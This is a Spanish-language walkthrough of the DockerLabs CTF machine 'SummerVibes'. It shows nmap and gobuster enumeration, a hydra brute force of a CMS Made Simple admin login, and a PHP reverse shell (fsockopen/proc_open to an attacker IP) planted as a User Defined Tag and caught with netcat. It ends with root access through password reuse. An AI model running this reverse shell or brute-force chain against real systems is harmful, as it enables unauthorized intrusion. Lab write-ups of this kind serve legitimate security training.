 ```yaml
---
icon: flag
---
```


# SummerVibes DockerLabs (Hard)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip summervibes.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh summervibes.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-13 11:56 EST
Nmap scan report for express.dl (172.17.0.2)
Host is up (0.000026s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 d1:19:f1:fa:48:16:af:8a:4a:89:2d:78:89:e9:2d:94 (ECDSA)
|_  256 b8:b7:2e:64:3e:ee:c3:2e:2e:be:99:07:4e:02:4f:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.14 seconds
```

Si inspeccionamos la pagina vemos el siguiente comentario.

```html
<!-- cms made simple is installed here - Access to it - cmsms -->
```

Puede ser que sea el nombre de un directorio, por lo que haremos lo siguiente:

```
URL = http://<IP>/cmsms/
```

Y veremos una pagina web normal, por lo que `fuzzearemos` un poco.

```shell
gobuster dir -u http://<IP>/cmsms/ -w <WORDLIST> -x html,php,txt -t 100 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/cmsms/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.html       (Status: 403) [Size: 275]
/.htpasswd.php        (Status: 403) [Size: 275]
/.htpasswd.html       (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd.txt        (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/.htaccess.txt        (Status: 403) [Size: 275]
/.htaccess.php        (Status: 403) [Size: 275]
/admin                (Status: 200) [Size: 4568]
/assets               (Status: 200) [Size: 2145]
/config.php           (Status: 200) [Size: 0]
/doc                  (Status: 200) [Size: 24]
/index.php            (Status: 200) [Size: 19671]
/lib                  (Status: 200) [Size: 24]
/modules              (Status: 200) [Size: 3397]
/tmp                  (Status: 200) [Size: 1147]
/uploads              (Status: 200) [Size: 1543]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos uno bastante llamativo llamado `admin`, que si entramos en el veremos un login de admin, por lo que le vamos a dar a `Forgot your password?` y pondremos `admin` para saber si el usuario existe, si lo hacemos vemos que existe, por lo que intentaremos fuerza bruta con `hydra` al login:

## Escalate user www-data

### Hydra

```shell
hydra -l admin -P <WORDLIST> <IP> http-post-form "/cmsms/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:User name or password incorrect"
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-13 12:07:19
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://172.17.0.2:80/cmsms/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:User name or password incorrect
[80][http-post-form] host: 172.17.0.2   login: admin   password: chocolate
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-13 12:07:21
```

Vemos que hemos encontrado las credenciales, por lo que nos conectaremos a la web con dichas credenciales y entraremos en el panel de `admin` si nos vamos a `extensions` -> `User Definded Tags` -> `Add User Defined Tag`

Veremos un cuadro en el que podremos meter codigo, por lo que meteremos lo siguiente:

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Le ponemos como nombre `shell`.

<figure><img src="../../.gitbook/assets/image (161) (1).png" alt=""><figcaption></figcaption></figure>

Le daremos a `Sumbit`, volvemos a entrar a `shell`, le daremos al boton `Apply` y antes de darle a `run` nos pondremos a la escucha.

```shell
nc -lvnp <PORT>
```

Una vez estando asi, le daremos a `run` en la pagina y cuando volvamos a la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.120.128] from (UNKNOWN) [172.17.0.2] 42832
whoami
www-data
```

### Sanitizacion shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate Privileges

Si reutilizamos la contraseña que encontramos en el panel de la pagina que era `chocolate` con `root`.

```shell
su root
```

Metemos como contraseña `chocolate` y veremos que somo el usuario `root`.
